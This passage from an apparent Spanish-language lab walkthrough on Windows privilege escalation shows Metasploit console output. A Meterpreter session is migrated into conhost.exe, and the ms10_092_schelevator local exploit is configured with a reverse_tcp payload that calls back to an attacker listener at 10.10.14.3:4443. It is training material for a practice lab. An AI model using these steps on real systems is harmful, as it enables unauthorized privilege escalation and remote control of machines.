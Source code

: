 ```shell-session
 2796  2632  conhost.exe        x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\conhost.exe
 2876  476   svchost.exe
 3048  476   svchost.exe
 
 
meterpreter > migrate 2796

[*] Migrating from 2268 to 2796...
[*] Migration completed successfully.


meterpreter > background

[*] Backgrounding session 1...
```

#### Configuración de opciones de módulo de escalada de privilegio

Una vez que esto se establece, ahora podemos configurar el módulo de escalada de privilegios especificando nuestra sesión de meterpreter actual, configurando nuestra IP Tun0 para el Lhost y un puerto de devolución de llamadas de nuestra elección.

  Servidor de Windows

```shell-session
msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION 1

SESSION => 1


msf6 exploit(windows/local/ms10_092_schelevator) > set lhost 10.10.14.3

lhost => 10.10.14.3


msf6 exploit(windows/local/ms10_092_schelevator) > set lport 4443

lport => 4443


msf6 exploit(windows/local/ms10_092_schelevator) > show options

Module options (exploit/windows/local/ms10_092_schelevator):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        no        Command to execute instead of a payload
   SESSION   1                yes       The session to run this module on.
   TASKNAME                   no        A name for the created task (default random)
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4443             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Windows Vista, 7, and 2008
```
